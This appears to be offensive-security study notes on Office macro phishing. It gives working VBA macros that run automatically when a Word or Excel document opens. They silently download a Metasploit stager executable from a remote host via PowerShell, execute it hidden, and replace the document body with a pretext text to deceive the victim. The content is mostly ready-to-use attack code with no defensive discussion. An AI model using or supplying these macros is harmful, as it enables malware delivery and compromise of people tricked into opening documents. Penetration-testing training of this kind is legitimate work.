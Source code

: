 ## Phishing with Microsoft Office

Save our document in a Macro-Enabled format such as `.doc` or `.docm`. (The newer `.docx` will not store macros)

```VB
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.120/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim exePath As String
    exePath = ActiveDocument.Path + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide
    'CreateObject("Wscript.Shell").Run str, 0
End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub
```

Create an Excel macro that runs when opening an Excel spreadsheet using `Workbook_Open`.

## Phishing PreTexting

1. With the text created, mark it and navigate to `Insert > Quick Parts > AutoTexts` and `Save Selection to AutoText Gallery`

2. In the **Create New Building Block** dialog box, enter the name `TheDoc`

```VB
Sub Document_Open()
    SubstitutePage
End Sub

Sub AutoOpen()
    SubstitutePage
End Sub

Sub SubstitutePage()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("TheDoc").Insert Where:=Selection.Range, RichText:=True
End Sub
```
